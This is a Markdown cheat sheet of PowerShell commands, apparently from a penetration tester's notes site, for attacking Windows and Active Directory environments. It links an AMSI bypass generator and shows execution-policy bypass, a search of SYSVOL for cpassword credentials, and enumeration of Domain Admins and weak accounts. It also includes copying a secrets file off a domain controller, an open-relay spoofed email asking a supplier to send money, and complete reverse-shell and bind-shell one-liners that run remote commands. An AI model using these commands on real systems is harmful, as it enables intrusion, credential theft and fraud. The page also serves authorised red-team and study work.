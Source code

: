 ```yaml
---
title : "powershell"
# pre : '<i class="fas fa-code"></i> '
description : "Windows Powershell handy commands."
date : 2020-04-16T13:14:28+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Powershell

{{%resources title="PowerShell and ISE executable" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Antimalware Scan Interface (AMSI) bypass generator

<https://amsi.fail>

### Active Directory PowerShell Module

This way the [Active Directory PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps) module can be used portable without administrator privileges. For example, when running in Azure Virtual Desktops or AzureAD managed devices, you will probably get the error message *Unable to find a default server with Active Directory Web Services running.*. Use the `-Server DC01.offsec.nl` flag after your CMDlet.

```plain
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

{{%resources title="PowerShell module" fa_icon_class="far fa-file-code" pattern=".*(dll)"/%}}

PowerShell: `Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose`

### Adjust execution policy

```plain
Set-ExecutionPolicy -scope process -execution bypass
```

### Check 'ms-DS-MachineAccountQuota'

```plain
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### List users with 'Store passwords using reversible encryption' enabled

```plain
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

### Get members of specific group

```plain
Get-ADGroupMember “Domain Admins”
```

```plain
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

### Get details

```plain
$env:logonserver
```

### Check which users home directories you have access to

```plain
gci C:\users\*\*
```

### Enable access to C-drive in Explorer

```plain
subst z: c:\
```

### Check how many computerobjects can be added by a user

```plain
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### Overview domain admins

Where 'Password Never Expires' is set.

```plain
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
    Get-ADUser -Filter * -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize
```

Where 'Password Never Expires' is NOT set.

```plain
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
    Get-NetUser -Filter * | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
```

### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter * -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$_.enabled -eq "true" }
```

### List Domain Admins where 'Account is sensitive an cannot be delegated' is not set

```powershell
Import-Module ActiveDirectory
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try `Register-PSRepository -default` first otherwise use code below.

```plain
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

### Copy remote file to local (WinRM)

```plain
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

### Open Relay

```plain
Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

### Download a file from a remote resource

When ran from `cmd.exe` add `powershell -c "<command>"`

```plain
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

### Reverse shell

```plain
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell

- `0.0.0.0` - will bind to every IP-address available on the local system

```plain
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Port Scan

```plain
$ Test-NetConnection DC01.offsec.nl -port 389

ComputerName     : DC01.offsec.nl
RemoteAddress    : 10.10.10.10
RemotePort       : 389
InterfaceAlias   : Ethernet
SourceAddress    : 10.0.0.4
TcpTestSucceeded : True
```
